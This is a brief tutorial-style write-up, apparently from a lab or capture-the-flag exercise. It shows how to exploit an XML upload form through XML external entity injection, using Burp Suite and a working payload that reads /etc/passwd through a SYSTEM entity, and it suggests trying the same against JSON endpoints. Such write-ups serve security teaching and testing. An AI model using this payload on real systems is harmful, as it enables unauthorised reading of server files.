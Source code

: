 ## **Exploitation**

We are given a website with a function to upload an `XML` file with the given format

```xml
<creds> 
<user>test</user> 
<password>test</password> 
</creds>
```

![](https://i.imgur.com/AxSxRTH.png)

We can create a **XML** file with the content as shown above and try to upload it then fire up `burpsuite`, intercept request and send to **repeater**  

![](https://i.imgur.com/AqGNo2c.png)


Surely, as we can see in the above image our result is been passed to the `user` and `password` field, this means we can get our **XML injection** to execute in this area of the response, by using the following payload

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<creds> 
<user>&example;</user> 
<password>test</password> 
</creds>
```

![](https://i.imgur.com/dTq4tK8.png)

**Note :** Also try to send XML payload to something that accept `JSON` endpoint as this may still lead to an XML injection attack

